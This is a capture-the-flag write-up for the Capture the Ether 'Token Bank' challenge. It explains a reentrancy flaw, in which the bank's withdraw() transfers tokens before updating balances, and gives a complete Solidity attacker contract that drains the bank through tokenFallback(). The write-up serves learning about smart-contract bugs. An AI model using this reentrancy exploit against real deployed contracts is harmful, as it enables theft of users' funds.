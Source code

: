 # Token Bank Capture the ether

## Goals

=> The bank deploys a token called “Simple ERC223 Token” and assigns half the tokens to me and half to you. You win this challenge if you can empty the bank.

### Hints

- None

### Solution

- The weakness is in the Banks `withdraw(uint256 amount)` function since this does an external contract call `require(token.transfer(msg.sender, amount))` beofre updating the balance of the message sender, this external call does another external call if the sent to is a contract to check if he can receive those tokens and implemented the `tokenFallback()` function which we can implement however we want to. Follwing Steps were done:
- Withdraw our 500k tokens from the bank calling as the player `withdraw(500000 ether)`
- Send them from the tokenContract to our hackContract `transfer(hackContract, 500000 ether)`
- Deposit them in the bank calling the hackContracts so the Hack contracts `depositTokensAtBank(500000 ether)` => balance is now 500k.
- Call the `attack()` function from the hackContract which will result in having a `tokenContract.balanceOf(hackContract)` of 1 million tokens which you could now withdraw to the player

### Attacker Contract

```solidity
contract Hack {
    TokenBankChallenge tokenBankContract;
    SimpleERC223Token token;
    address OWNER;

    constructor(address _tokenBankContract, address _token) public {
        OWNER = msg.sender;
        tokenBankContract = TokenBankChallenge(_tokenBankContract);
        token = SimpleERC223Token(_token);
    }

    function depositTokensAtBank() public {
        // deposit tokens to be able to withdraw and trigger the fallback / reentrancy
        token.transfer(tokenBankContract, 500000 ether);
    }

    function withdrawStolenFunds() external {
        token.transfer(OWNER, token.balanceOf(address(this)));
    }

    function attack() public {
        // triggers fallback
        tokenBankContract.withdraw(500000 ether);
    }

    function tokenFallback(address from, uint256 value, bytes data) external{
        // !! Not called when the OWNER/Player transfers tokens to our Hack contract !!
        // fallback takes the other half of the funds
        if(token.balanceOf(tokenBankContract) >= 500000 ether && from != OWNER){
        tokenBankContract.withdraw(500000 ether);
        }
    }

}
```
